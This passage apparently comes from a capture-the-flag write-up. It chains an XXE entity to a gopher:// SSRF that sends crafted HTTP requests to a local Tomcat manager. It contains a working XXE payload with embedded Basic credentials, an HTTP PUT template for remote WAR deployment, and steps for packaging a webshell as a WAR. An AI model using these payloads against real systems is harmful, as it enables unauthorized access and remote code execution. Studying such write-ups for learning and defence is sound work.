 ```
GET /manager/list HTTP/1.1
Host: localhost:8080
Authorization: Basic YWRtaW46c3VwM3JzM2NyM3RwNHNzYzBkMw==
Connection: close
```

1. The `host` header is necessary. Otherwise Apache server will return an error.
2. `Connection: close` is essential. By default gopher protocol doesn't close the connection. This will make the whole connection hang. Therefore we should ask the server side to close the connection.

Simply use URL encoding (percent-encoding) to insert CRLF.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
<!ENTITY rrr SYSTEM "gopher://localhost:8080/_GET%20/manager/list%20HTTP/1.1%0d%0aHost%3a%20localhost%3a8080%0d%0aAuthorization%3A%20Basic%20YWRtaW46c3VwM3JzM2NyM3RwNHNzYzBkMw%3D%3D%0d%0aConnection%3a%20close%0d%0a">
]>
<message>
<id></id>
<message>&rrr;</message>
<title>dd</title>
</message>
```

And our payload works! The server will return a list of applications.

#### Gopher Pitfall (Intended Solution 1)

In Tomcat manager, we can [deploy an application remotely](https://tomcat.apache.org/tomcat-6.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely). Therefore our plan is to utilize gopher to smuggle the HTTP protocol, and deploy a malicious application!

I install a Tomcat docker locally to see the payload of the HTTP request. When deploying an application remotely, the browser will send a HTTP PUT request.

```
PUT /manager/deploy?path=/_ HTTP/1.1
Host: localhost:8080
Content-Length: 1234
Authorization: Basic YWRtaW46c3VwM3JzM2NyM3RwNHNzYzBkMw==
Connection: close

[WAR application]
```

In order to create a malicious WAR application and deploy to Tomcat, I found a great [Tomcat backdoor example](https://github.com/mgeeky/tomcatWarDeployer). Here is another [official example](https://tomcat.apache.org/tomcat-6.0-doc/appdev/sample/) of a Tomcat WAR application. In fact, we can omit `WEB-INF/web.xml` and `META-INF` directory and files. Just creating a `.war` file with `index.jsp` is enough. Additionally, both `jar -cvf` and `zip` can create a valid WAR application.

Here is my damn-small webshell `index.jsp`. Then `zip -r pwn.war index.jsp` this file.

